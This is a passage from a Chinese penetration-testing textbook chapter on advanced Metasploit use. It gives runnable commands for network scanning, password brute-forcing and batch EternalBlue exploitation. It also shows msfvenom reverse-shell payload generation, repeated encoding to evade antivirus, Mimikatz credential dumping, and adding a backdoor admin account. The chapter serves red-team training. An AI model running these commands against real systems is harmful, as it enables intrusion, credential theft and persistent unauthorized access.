




# 第41章 MSF高级应用

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：MSF数据库与工作区、扫描与信息收集模块、漏洞利用进阶、Payload详解、Encoder编码、Post后渗透模块、Auxiliary辅助模块、自定义模块编写、与Cobalt Strike联动、资源脚本、域环境应用、大型内网技巧、5个实战案例**

::: tip 说明
上一章我们深入学习了Meterpreter，
见识了它强大的后渗透功能。

这一章我们继续进阶，
学习MSF的高级应用：
- MSF数据库怎么用？
- 工作区（Workspace）是什么？
- 扫描模块有哪些？
- 怎么编写自己的MSF模块？
- 怎么和Cobalt Strike联动？
- 资源脚本是什么？
- 域环境中怎么用MSF？
- 大型内网渗透有什么技巧？

这些都是红队实战中非常实用的技巧，
学完这一章，
你的MSF使用水平会再上一个台阶。

准备好了吗？
开始！
:::

> 💡 **大白话理解MSF高级应用**
>
> 基础用法和高级用法的区别：
>
> **基础用法**就像是你在超市买菜——每样菜单独付钱，东西散乱。
> **高级用法**就像你在用"中央仓库管理系统"——所有东西分类存放、库存跟踪、自动化补货。
>
> 具体来说：
> - **MSF数据库** = 你的"电子地图"，记录所有发现的机器、服务、漏洞信息
> - **工作区(Workspace)** = 给每个项目一个独立的"文件夹"，不会互相搞混
> - **资源脚本(rc)** = 你的"自动化脚本"，把重复的操作写成脚本，一键执行
> - **自己写模块** = 从"使用者"变成"创造者"——遇到MSF没有的漏洞模块，自己写一个
> - **和Cobalt Strike联动** = MSF + CS就像"步兵+特种部队"，实力翻倍
>
> 学会了高级用法，你就从"会用MSF"变成了"精通MSF"。
> 在护网实战中，高手都是靠数据库管理几十台机器的信息，
> 靠rc脚本自动化重复操作，靠自定义模块搞定特殊场景。

---


::: tip 写在前面
很多人用MSF，
就只会用`search`找模块、
`use`选模块、
`set`设参数、
`run`执行。

如果你也只是这样用MSF，
那你只发挥了它10%的功能。

MSF是一个非常强大的框架，
它有数据库、有工作区、
有扫描器、有后渗透模块、
有编码器、有nop生成器...
甚至你可以自己写模块。

在真实的护网行动中，
MSF不只是用来"打exp拿shell"的，
它还可以用来：
- 管理大量的目标主机
- 批量扫描内网
- 收集凭证并自动尝试
- 横向移动自动化
- 后渗透操作自动化
- ...

这一章我们就来解锁MSF的高级玩法，
让你从"会用MSF"变成"精通MSF"。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 掌握MSF数据库的配置与使用
- [x] 理解工作区（Workspace）的概念
- [x] 熟练使用MSF的扫描与信息收集模块
- [x] 了解漏洞利用模块的进阶用法
- [x] 掌握各种Payload的区别与使用场景
- [x] 理解Encoder编码模块的原理与使用
- [x] 熟练使用常用的Post后渗透模块
- [x] 了解Auxiliary辅助模块的分类
- [x] 学会编写简单的MSF模块
- [x] 掌握MSF与Cobalt Strike的联动方法
- [x] 会写MSF资源脚本（rc脚本）
- [x] 了解MSF在域环境中的应用
- [x] 掌握大型内网渗透中的MSF使用技巧

---

## 💾 MSF数据库与工作区

### 1.1 为什么需要数据库？

你有没有遇到过这种情况：
- 扫了一大堆端口，结果记不住哪些机器开了哪些端口
- 收集了一堆凭证，不知道哪台机器用哪个凭证
- 打了很多靶机，结果忘了哪台已经拿过shell了

如果没有数据库，
这些信息你只能自己记笔记，
或者用Excel表格管理，
非常麻烦。

**有了MSF数据库，这些问题就都解决了！**

MSF数据库可以帮你：
- 自动存储扫描结果
- 管理所有目标主机信息
- 记录收集到的凭证
- 跟踪哪些主机已经被攻破
- 按工作区分组管理不同项目
- ...

简单说就是：
**MSF数据库就是你的渗透测试知识库。**

### 1.2 数据库配置

MSF默认使用PostgreSQL数据库，
Kali Linux里已经预装好了，
只需要简单配置一下就能用。

**第一步：启动PostgreSQL服务**

```bash
systemctl start postgresql
systemctl enable postgresql
```

**第二步：初始化MSF数据库**

```bash
msfdb init
```

执行这个命令后，
MSF会自动创建数据库和用户。

**第三步：启动msfconsole并验证**

```bash
msfconsole
```

进入msfconsole后，输入：

```bash
db_status
```

如果显示`postgresql connected to msf`，
说明数据库连接成功了！

::: tip 常见问题
如果连接失败怎么办？

1. 检查PostgreSQL服务是否启动
2. 检查数据库用户和密码是否正确
3. 重新运行`msfdb reinit`
4. 查看配置文件：`~/.msf4/database.yml`
:::

### 1.3 工作区（Workspace）

什么是工作区？

简单说就是：
**不同的项目用不同的工作区，数据互不干扰。**

比如你同时做三个项目：
- 项目A：某银行护网
- 项目B：某企业渗透测试
- 项目C：自己的实验环境

如果都存在一个数据库里，
数据就乱了。

这时候你可以创建三个工作区，
每个项目的数据存在各自的工作区里，
互不影响。

**常用的工作区命令：**

```bash
# 查看当前工作区
workspace

# 查看所有工作区
workspace -a

# 创建新工作区
workspace -a project_name

# 切换工作区
workspace project_name

# 删除工作区
workspace -d project_name

# 重命名工作区
workspace -r old_name new_name
```

**实战建议：**
- 每个项目建一个独立的工作区
- 工作区命名要清晰，比如`hw_2024_bank`
- 项目结束后可以导出备份，然后删除工作区

**图41-1 MSF数据库与工作区架构图**



### 1.4 数据库常用命令

MSF提供了很多数据库操作命令，
下面是最常用的几个：

**主机管理：**

```bash
# 查看数据库中的所有主机
hosts

# 查看特定地址的主机
hosts 192.168.1.0/24

# 添加主机到数据库
hosts -a 192.168.1.100

# 删除主机
hosts -d 192.168.1.100
```

**服务/端口管理：**

```bash
# 查看所有开放的服务
services

# 查看特定端口的服务
services -p 80,443

# 查看特定主机的服务
services 192.168.1.100
```

**凭证管理：**

```bash
# 查看所有收集到的凭证
creds

# 查看特定服务的凭证
creds -s smb

# 查看特定主机的凭证
creds 192.168.1.100
```

**漏洞管理：**

```bash
# 查看所有发现的漏洞
vulns

# 查看特定主机的漏洞
vulns 192.168.1.100
```

**笔记管理：**

```bash
# 查看所有笔记
notes

# 添加笔记
notes -a 192.168.1.100 -n "这台机器是域控"
```

### 1.5 数据库导入导出

做项目的时候，
经常需要把数据导出来备份，
或者导入别人的扫描结果。

MSF支持多种数据格式的导入导出。

**导出数据：**

```bash
# 导出为XML格式
db_export -f xml backup.xml

# 导出为CSV格式
db_export -f csv backup.csv
```

**导入数据：**

```bash
# 导入Nmap扫描结果
db_import nmap_result.xml

# 导入MSF XML备份
db_import backup.xml
```

支持导入的格式：
- Nmap XML
- Nessus XML
- OpenVAS XML
- MSF自己的XML格式
- ...

::: tip 实战技巧
在大型内网渗透中，
建议每隔一段时间就导出一次数据库备份，
防止意外情况导致数据丢失。
:::

> 💡 **大白话说MSF数据库的实战价值**
>
> 很多同学会问："我用Nmap扫完端口，记在笔记本上不行吗？为什么要用数据库？"
>
> 假设一个真实护网场景：你扫了 /24 网段（256个IP），发现120台主机存活、每台5-10个服务、10台有MS17-010漏洞、5台有弱口令。到凌晨3点你已经困得不行了。
>
> **不用数据库**：Excel记录，半小时就混乱——"192.168.1.47的密码是什么来着？"
> **用数据库**：`hosts` → 所有主机，`services` → 所有服务，`vulns` → 所有漏洞，`creds` → 所有密码。一目了然。
>
> 数据库不是"加分项"，在实战中是**必备项**。

---

## 🔍 MSF扫描与信息收集模块

### 2.1 为什么用MSF做扫描？

你可能会问：
"扫描我用Nmap不就行了，
为什么还要用MSF的扫描模块？"

问得好！

MSF扫描的优势在于：
1. **结果自动存入数据库** - 不用手动导入
2. **和其他模块联动** - 扫到漏洞直接利用
3. **更专业的漏洞扫描** - 很多专门的漏洞扫描模块
4. **自动化程度高** - 可以写脚本批量扫描

当然，Nmap也有它的优势，
两者配合使用效果最好。

### 2.2 端口扫描模块

MSF内置了几个端口扫描模块，
最常用的是：

**1. TCP端口扫描（syn扫描）**

```bash
use auxiliary/scanner/portscan/syn
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
set THREADS 50
run
```

**2. TCP连接扫描**

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 21,22,80,443,445,3306,3389
run
```

**3. ACK扫描（用于探测防火墙）**

```bash
use auxiliary/scanner/portscan/ack
set RHOSTS 192.168.1.0/24
run
```

**4. UDP端口扫描**

```bash
use auxiliary/scanner/portscan/udp
set RHOSTS 192.168.1.0/24
set PORTS 53,161,162
run
```

::: tip 扫描器对比
| 扫描类型 | 速度 | 准确性 | 隐蔽性 | 适用场景 |
|---------|------|--------|--------|---------|
| SYN扫描 | 快 | 高 | 较好 | 常用 |
| TCP连接 | 中 | 高 | 差 | 简单扫描 |
| ACK扫描 | 快 | 中 | 好 | 探测防火墙 |
| UDP扫描 | 慢 | 中 | 中 | UDP服务 |
:::

### 2.3 服务识别模块

扫到开放的端口之后，
接下来就要识别端口上跑的是什么服务。

**常用的服务识别模块：**

**1. 版本扫描**

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 80
run
```

**2. SSH版本识别**

```bash
use auxiliary/scanner/ssh/ssh_version
set RHOSTS 192.168.1.0/24
run
```

**3. FTP版本识别**

```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 192.168.1.0/24
run
```

**4. SMB版本识别**

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run
```

**5. HTTP服务识别**

```bash
use auxiliary/scanner/http/http_version
set RHOSTS 192.168.1.0/24
run
```

### 2.4 漏洞扫描模块

MSF最强大的地方之一，
就是它有大量的漏洞扫描模块。

**常用的漏洞扫描模块：**

**1. MS17-010永恒之蓝扫描**

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run
```

**2. 永恒之红（EternalRed）扫描**

```bash
use auxiliary/scanner/smb/smb_eternalred
set RHOSTS 192.168.1.0/24
run
```

**3. MS08-067扫描**

```bash
use auxiliary/scanner/smb/smb_ms08_067
set RHOSTS 192.168.1.0/24
run
```

**4. Heartbleed心脏滴血扫描**

```bash
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.1.0/24
run
```

**5. Log4j漏洞扫描**

```bash
use auxiliary/scanner/http/log4j_scanner
set RHOSTS 192.168.1.0/24
run
```

**6. Struts2漏洞扫描**

```bash
use auxiliary/scanner/http/struts2_content_type_ognl
set RHOSTS 192.168.1.0/24
run
```

::: tip 扫描技巧
1. 先用端口扫描扫出开放端口
2. 再针对开放端口做服务识别
3. 最后根据服务版本找对应的漏洞扫描模块
4. 扫描结果自动存入数据库，可以直接用`vulns`查看
:::

**图41-2 MSF扫描与漏洞发现标准流程图**



### 2.5 凭证爆破模块

MSF也有很多爆破模块，
可以用来爆破各种服务的密码。

**常用的爆破模块：**

**1. SSH爆破**

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.0/24
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 10
run
```

**2. SMB爆破**

```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.0/24
set USERNAME administrator
set PASS_FILE passwords.txt
run
```

**3. FTP爆破**

```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.0/24
set USERNAME admin
set PASS_FILE passwords.txt
run
```

**4. MySQL爆破**

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.0/24
set USERNAME root
set PASS_FILE passwords.txt
run
```

**5. RDP爆破**

```bash
use auxiliary/scanner/rdp/rdp_login
set RHOSTS 192.168.1.0/24
set USERNAME administrator
set PASS_FILE passwords.txt
run
```

**6. HTTP基本认证爆破**

```bash
use auxiliary/scanner/http/http_login
set RHOSTS 192.168.1.100
set USERNAME admin
set PASS_FILE passwords.txt
run
```

::: warning 注意事项
1. 爆破速度不要太快，否则可能触发告警或锁定账户
2. 爆破前最好先了解目标的密码策略
3. 建议先收集信息，再针对性爆破，不要盲目瞎爆破
4. 护网行动中要注意规则，有些比赛不允许爆破
:::

### 2.6 信息收集模块大全

除了扫描和爆破，
MSF还有很多信息收集模块。

**常用的信息收集模块：**

**SNMP信息收集：**
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 192.168.1.0/24
run
```

**DNS区域传输：**
```bash
use auxiliary/gather/dns_enum
set DOMAIN example.com
run
```

**邮件收集：**
```bash
use auxiliary/gather/search_email_collector
set DOMAIN example.com
run
```

**Whois查询：**
```bash
use auxiliary/gather/whois
set DOMAIN example.com
run
```

**Dirb目录扫描：**
```bash
use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.1.100
run
```

---

## 💣 漏洞利用模块进阶

### 3.1 漏洞利用模块的结构

你可能已经用了很多漏洞利用模块，
但你了解它们的结构吗？

一个典型的漏洞利用模块通常包含以下几个部分：

1. **模块信息** - 名称、描述、作者、参考资料
2. **目标平台** - 支持哪些操作系统、哪些版本
3. **Payload设置** - 需要什么类型的Payload
4. **漏洞利用代码** - 核心的利用逻辑
5. **目标列表** - 已知受影响的目标版本

**查看模块信息：**

```bash
use exploit/windows/smb/ms17_010_eternalblue
info
```

这个命令会显示模块的详细信息，
包括：
- 模块名称
- 模块描述
- 作者
- 参考资料（CVE编号、MS编号等）
- 受影响的目标
- 可用的目标选项
- 默认配置

### 3.2 目标（Target）选择

很多漏洞利用模块都有多个目标选项，
对应不同的操作系统版本、
不同的补丁情况、
不同的语言版本...

**查看可用目标：**

```bash
show targets
```

**设置目标：**

```bash
set TARGET 0
```

::: tip 为什么要选目标？
不同版本的系统，
漏洞利用的方式可能不一样，
比如：
- 内存地址不同
- 漏洞利用代码不同
- 绕过防护的方式不同

如果选错了目标，
很可能会导致利用失败，
甚至把目标系统打蓝屏。

所以实战中，
一定要先准确识别目标系统版本，
再选择对应的目标。
:::

### 3.3 Payload选择与配置

选择漏洞利用模块后，
还需要选择合适的Payload。

**查看可用的Payload：**

```bash
show payloads
```

**设置Payload：**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
```

**Payload选择技巧：**

1. **根据目标系统选择** - Windows用windows的，Linux用linux的
2. **根据网络环境选择** - 目标能连回你用reverse，你能连目标用bind
3. **根据隐蔽性要求选择** - 需要免杀就用编码过的或stageless的
4. **根据功能需求选择** - 需要强大功能就用Meterpreter

### 3.4 检查（Check）功能

有些漏洞利用模块支持`check`命令，
可以先检测目标是否存在漏洞，
而不直接执行利用代码。

**使用方法：**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
check
```

如果返回`The target is vulnerable`，
说明目标存在漏洞，可以尝试利用。

如果返回`The target is not vulnerable`，
说明目标不存在漏洞，就不用浪费时间了。

::: tip Check的好处
1. 不会对目标造成影响（不会打蓝屏）
2. 可以快速批量检测
3. 结果会存入数据库（vulns）

不是所有模块都支持check，
只有一部分模块有这个功能。
:::

### 3.5 批量漏洞利用

在大型内网中，
可能有很多台机器都有同一个漏洞，
一台一台打太慢了。

MSF支持批量利用，
一次设置，批量执行。

**方法一：设置C段**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.0/24
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit -j
```

`-j`参数表示后台执行（job模式）。

**方法二：从数据库导入**

```bash
# 先扫描出有漏洞的主机
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run

# 然后用这些有漏洞的主机批量利用
use exploit/windows/smb/ms17_010_eternalblue
setg PAYLOAD windows/meterpreter/reverse_tcp
setg LHOST 192.168.1.10
setg LPORT 4444
exploit -j -z
```

`-z`表示成功后不交互，继续下一个。

::: warning 注意
批量利用的时候要小心，
特别是内核漏洞，
搞不好会把很多机器打蓝屏，
影响太大了。

建议：
1. 先小范围测试
2. 确认没问题再扩大范围
3. 注意时间，避开业务高峰期
4. 护网比赛中注意规则
:::

---

## 📦 Payload模块详解

### 4.1 Payload的分类

MSF的Payload种类非常多，
可以按不同的方式分类。

**按传输方式分：**
- **Reverse（反向连接）** - 目标主动连接我们
- **Bind（正向连接）** - 我们主动连接目标

**按阶段分：**
- **Staged（分阶段）** - 先传一小段，再传剩下的
- **Stageless（不分阶段）** - 一次性全部传过去

**按功能分：**
- **Shell** - 普通的命令行Shell
- **Meterpreter** - 高级的Meterpreter Shell
- **Exec** - 执行单个命令
- **Download/Upload** - 下载/上传文件
- ...

### 4.2 Staged vs Stageless

这是一个很重要的概念，
很多新手搞不清楚。

**Staged（分阶段）Payload：**
- 格式：`windows/meterpreter/reverse_tcp`（中间有两级）
- 特点：体积小，分两次传输
- 优点：体积小，容易利用
- 缺点：需要两次连接，可能被拦截

**Stageless（不分阶段）Payload：**
- 格式：`windows/meterpreter_reverse_tcp`（中间是下划线）
- 特点：体积极大，一次性传输
- 优点：只需要一次连接，更稳定
- 缺点：体积大，有些漏洞放不下

::: tip 怎么选？
- 漏洞利用空间小 → 用Staged
- 网络不稳定 → 用Stageless
- 需要免杀 → Stageless更容易做免杀
- 一般情况 → 用Staged就行
:::

**图41-3 Staged与Stageless Payload传输对比图**



### 4.3 各种Payload对比

**Windows平台常用Payload：**

| Payload | 类型 | 说明 |
|---------|------|------|
| `windows/shell/reverse_tcp` | Staged | 普通CMD Shell，反向TCP |
| `windows/shell_bind_tcp` | Stageless | 普通CMD Shell，绑定TCP |
| `windows/meterpreter/reverse_tcp` | Staged | Meterpreter，反向TCP |
| `windows/meterpreter/reverse_https` | Staged | Meterpreter，反向HTTPS |
| `windows/meterpreter_bind_tcp` | Stageless | Meterpreter，绑定TCP |
| `windows/x64/meterpreter/reverse_tcp` | Staged | 64位Meterpreter，反向TCP |
| `windows/exec` | Stageless | 执行单个命令 |
| `windows/download_exec` | Stageless | 下载并执行程序 |
| `windows/vncinject/reverse_tcp` | Staged | VNC注入，反向TCP |
| `windows/messagebox` | Stageless | 弹出消息框 |

**Linux平台常用Payload：**

| Payload | 类型 | 说明 |
|---------|------|------|
| `linux/x86/shell/reverse_tcp` | Staged | 普通Bash Shell，反向TCP |
| `linux/x86/meterpreter/reverse_tcp` | Staged | Meterpreter，反向TCP |
| `linux/x64/shell_reverse_tcp` | Stageless | 64位Shell，反向TCP |
| `linux/x64/meterpreter_reverse_tcp` | Stageless | 64位Meterpreter，反向TCP |

**Java平台：**
- `java/meterpreter/reverse_tcp`
- `java/jsp_shell_reverse_tcp`

**PHP平台：**
- `php/meterpreter/reverse_tcp`
- `php/reverse_php`

**Python平台：**
- `python/meterpreter/reverse_tcp`
- `python/shell_reverse_tcp`

### 4.4 特殊Payload

除了上面这些常用的，
还有一些比较特殊的Payload。

**1. DLL注入Payload**
```
windows/dllinject/reverse_tcp
```
把DLL注入到指定进程中。

**2. 反射DLL加载**
```
windows/reflective_dll_injection
```
反射式DLL注入，不写磁盘。

**3. PowerShell Payload**
```
windows/powershell_reverse_tcp
```
用PowerShell反弹Shell。

**4. 内存执行Payload**
各种Meterpreter都是内存执行的，
不写磁盘，隐蔽性好。

### 4.5 Payload生成（msfvenom）

我们上一章简单提过msfvenom，
这里再详细讲一下高级用法。

**生成Windows EXE：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f exe -o payload.exe
```

**生成Windows DLL：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f dll -o payload.dll
```

**生成Linux ELF：**
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f elf -o payload.elf
```

**生成Python脚本：**
```bash
msfvenom -p python/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f py -o payload.py
```

**生成PHP：**
```bash
msfvenom -p php/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f raw -o payload.php
```

**生成WAR包：**
```bash
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f war -o shell.war
```

**生成Shellcode（C语言格式）：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f c
```

**生成Shellcode（Python格式）：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f python
```

**支持的输出格式：**
`exe, dll, elf, macho, python, php, js, java, war, asp, aspx, jsp, c, perl, ruby, bash, raw, vba, vbs, powershell, ...`

---

## 🔐 Encoder编码模块

### 5.1 什么是Encoder？

Encoder（编码器）是MSF的一个重要模块，
它的作用是：
**对Payload进行编码，
改变Payload的特征，
从而绕过杀毒软件的检测。**

简单说就是：
**给Payload"易容"，
让杀毒软件认不出来。**

为什么需要编码？
因为MSF的Payload太有名了，
各大杀毒软件都有它们的特征码，
直接生成的Payload一上传就会被查杀。

编码之后，
Payload的外观变了，
杀毒软件就可能认不出来了。

### 5.2 常用Encoder介绍

MSF内置了很多编码器，
下面是最常用的几个：

**1. x86/shikata_ga_nai**
- 最著名的编码器，"无解"的意思
- 多态编码，每次生成的都不一样
- 免杀效果不错，支持多次编码
- 只能用于x86（32位）

**2. x64/xor**
- 64位XOR编码器
- 简单的异或编码
- 64位Payload用这个

**3. x86/fnstenv_mov**
- 浮点指令编码
- 比较老的编码器
- 现在免杀效果一般

**4. x86/jmp_call_additive**
- 跳转调用加法编码
- 免杀效果一般

**5. generic/eicar**
- EICAR测试用编码器
- 用来测试杀毒软件是否工作

**查看所有编码器：**
```bash
show encoders
```

### 5.3 Encoder使用方法

**使用单个编码器：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -e x86/shikata_ga_nai \
  -f exe -o payload.exe
```

**多次编码（增加免杀效果）：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -e x86/shikata_ga_nai -i 10 \
  -f exe -o payload.exe
```

`-i 10`表示编码10次。

**使用多个编码器（多重编码）：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -e x86/shikata_ga_nai -i 5 | \
  msfvenom -e x86/fnstenv_mov -i 3 -f exe -o payload.exe
```

::: tip 编码次数越多越好吗？
不是的！

编码次数太多的话：
1. Payload体积会变大
2. 运行速度会变慢
3. 可能会导致运行失败
4. 免杀效果不一定更好

一般编码3-10次就够了，
太多了反而不好。
:::

### 5.4 NOP生成器

除了Encoder，
MSF还有NOP生成器（Nops模块）。

什么是NOP？
NOP是空操作指令，
CPU执行了什么也不做，
直接跳到下一条指令。

NOP有什么用？
在漏洞利用中，
我们经常需要"滑梯"（NOP Sled），
让Shellcode的地址不那么精确，
只要落在NOP区域就能滑到Shellcode。

**使用NOP：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -e x86/shikata_ga_nai -n 100 \
  -f exe -o payload.exe
```

`-n 100`表示在Payload前面加100个NOP。

**常用NOP生成器：**
- `x86/single_byte` - 单字节NOP（普通的\x90）
- `x86/opty2` - 优化的NOP生成器
- `x64/simple` - 64位NOP生成器

### 5.5 免杀效果说明

::: warning 重要提醒
Encoder编码只是最基础的免杀手段，
对于现在的主流杀毒软件，
特别是带行为检测、云查杀的，
单纯的编码免杀效果很差。

真正的免杀需要：
- 自定义Shellcode
- 加壳、脱壳
- 混淆、花指令
- 注入合法进程
- 无文件落地
- 绕过行为检测
- ...

这一章只是入门，
后面的免杀章节会详细讲。
:::

---

## 🛠️ Post后渗透模块大全

### 6.1 Post模块是什么？

Post模块就是后渗透模块，
是拿到Shell之后用的模块。

Meterpreter本身已经有很多命令了，
但Post模块提供了更多、
更专业的功能。

Post模块按功能分类：
- 信息收集类
- 凭证窃取类
- 权限提升类
- 持久化类
- 横向移动类
- 痕迹清理类
- 系统操作类
- ...

**查看所有Post模块：**
```bash
search type:post
```

或者按平台查看：
```bash
post/windows/  # Windows平台
post/linux/    # Linux平台
post/osx/      # macOS平台
post/android/  # Android平台
...
```

### 6.2 信息收集类Post模块

**Windows信息收集：**

| 模块 | 功能 |
|------|------|
| `post/windows/gather/checkvm` | 检测是否是虚拟机 |
| `post/windows/gather/enum_applications` | 枚举安装的软件 |
| `post/windows/gather/enum_logged_on_users` | 枚举登录的用户 |
| `post/windows/gather/enum_patches` | 枚举安装的补丁 |
| `post/windows/gather/enum_services` | 枚举系统服务 |
| `post/windows/gather/hashdump` | 导出密码Hash |
| `post/windows/gather/smart_hashdump` | 智能导出Hash |
| `post/windows/gather/credentials/gpp` | 获取GPP密码 |
| `post/windows/gather/wireless_profiles` | 获取无线配置文件 |
| `post/windows/gather/browser_info` | 浏览器信息收集 |
| `post/windows/gather/credentials/outlook` | Outlook凭证 |

**使用示例：**
```bash
use post/windows/gather/checkvm
set SESSION 1
run
```

### 6.3 凭证窃取类Post模块

**Windows凭证窃取：**

| 模块 | 功能 |
|------|------|
| `post/windows/gather/credentials/mimikatz` | Mimikatz抓取密码 |
| `post/windows/gather/credentials/wdigest` | WDigest凭证 |
| `post/windows/gather/credentials/ssp` | SSP凭证 |
| `post/windows/gather/credentials/credential_collector` | 凭证收集器 |
| `post/windows/gather/credentials/rasphone` | 拨号凭证 |
| `post/windows/gather/credentials/vnc` | VNC密码 |
| `post/windows/gather/credentials/imail` | 邮件客户端密码 |

**Mimikatz使用示例：**
```bash
use post/windows/gather/credentials/mimikatz
set SESSION 1
run
```

::: tip 注意
Mimikatz需要System权限才能运行，
如果当前不是System权限，
需要先提权。

另外，Mimikatz很容易被杀软查杀，
使用时需要注意免杀。
:::

### 6.4 权限提升类Post模块

**Windows提权：**

| 模块 | 功能 |
|------|------|
| `post/windows/escalate/getsystem` | 获取System权限 |
| `post/windows/escalate/getsystem_service` | 服务方式提权 |
| `post/windows/escalate/ms16_032` | MS16-032提权 |
| `post/multi/recon/local_exploit_suggester` | 本地提权漏洞建议 |

**Local Exploit Suggester使用：**
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

这个模块会检测系统可能存在的提权漏洞，
然后给出建议。

### 6.5 持久化类Post模块

**Windows持久化：**

| 模块 | 功能 |
|------|------|
| `post/windows/manage/persistence_exe` | EXE持久化 |
| `post/windows/manage/metsvc` | 安装服务后门 |
| `post/windows/persistence` | 注册表持久化 |
| `post/windows/manage/enable_rdp` | 开启RDP |
| `post/windows/manage/add_user` | 添加用户 |

**添加用户示例：**
```bash
use post/windows/manage/add_user
set SESSION 1
set USERNAME hacker
set PASSWORD P@ssw0rd123
set ADMIN true
run
```

**开启RDP示例：**
```bash
use post/windows/manage/enable_rdp
set SESSION 1
run
```

### 6.6 横向移动类Post模块

**横向移动：**

| 模块 | 功能 |
|------|------|
| `post/windows/gather/arp_scanner` | ARP扫描 |
| `post/windows/manage/autoroute` | 添加路由 |
| `post/windows/manage/portproxy` | 端口代理 |

**还有很多横向移动的Exploit模块，比如：**
- PsExec
- WMI
- WinRM
- SMB
- ...

这些我们在横向移动章节会详细讲。

### 6.7 其他常用Post模块

**网络相关：**

